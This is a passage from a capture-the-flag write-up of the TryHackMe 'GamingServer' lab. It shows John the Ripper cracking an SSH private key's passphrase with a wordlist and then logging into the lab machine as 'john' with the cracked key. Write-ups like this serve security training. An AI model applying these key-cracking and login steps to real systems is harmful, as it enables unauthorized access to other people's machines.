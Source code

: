```highlight
└──╼ #
```

Now with the hash I can use john to crack.

```highlight
┌─[root@parrot]─[/home/daz/Documents/TryHackMe/GamingServer]
└──╼ #john cracked -w dict.lst 
Warning: only loading hashes of type "SSH", but also saw type "tripcode"
Use the "--format=tripcode" option to force loading hashes of that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 2 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
{{REDACTED}}          (secretKey)
1g 0:00:00:00 DONE (2020-09-06 15:20) 100.0g/s 354600p/s 354600c/s 354600C/s 1701d..sss
Session completed
┌─[root@parrot]─[/home/daz/Documents/TryHackMe/GamingServer]
└──╼ #
```

It doesn't take long to crack. Using the key and password I should be able to SSH in to the machine. However, I dont know the username, going back to the HTML comment earlier, I will try with the username 'john'. First I need to chmod 600 the key file before I can use it.

```highlight
┌─[root@parrot]─[/home/daz/Documents/TryHackMe/GamingServer]
└──╼ #chmod 600 secretKey 
┌─[root@parrot]─[/home/daz/Documents/TryHackMe/GamingServer]
└──╼ #ssh -i secretKey john@10.10.100.235
The authenticity of host '10.10.100.235 (10.10.100.235)' can't be established.
ECDSA key fingerprint is SHA256:LO5bYqjXqLnB39jxUzFMiOaZ1YnyFGGXUmf1edL6R9o.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.100.235' (ECDSA) to the list of known hosts.
Enter passphrase for key 'secretKey': 
Welcome to Ubuntu 18.04.4 LTS (GNU/Linux 4.15.0-76-generic x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:     https://landscape.canonical.com
 * Support:        https://ubuntu.com/advantage

  System information as of Sun Sep  6 14:23:42 UTC 2020

  System load:  0.0               Processes:           96
  Usage of /:   41.3% of 9.78GB   Users logged in:     0
  Memory usage: 40%               IP address for eth0: 10.10.100.235
  Swap usage:   0%


0 packages can be updated.
0 updates are security updates.


Last login: Mon Jul 27 20:17:26 2020 from 10.8.5.10
john@exploitable:~$ 
```
